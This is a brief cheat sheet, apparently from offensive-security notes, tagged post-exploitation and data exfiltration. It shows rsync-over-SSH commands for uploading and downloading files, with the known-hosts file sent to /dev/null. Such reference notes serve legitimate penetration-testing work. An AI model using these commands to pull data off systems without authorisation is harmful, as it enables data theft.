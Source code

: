 # Rsync

Search Tags: #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Conditions

- The SSH server must have `rsync` installed.

## 02 - Setup

- Ubuntu/Debian based distros

`$ sudo apt install -y rsync`

- Arch based distros

`$ sudo pacman -S rsync`

## 03 - Upload

```
$ rsync [-n] -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null" <file_source> <username>@<IP>:<file_destination>
```

## 04 - Download

```
$ rsync [n] -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null" <username>@<IP>:<file_source> <file_destination>
```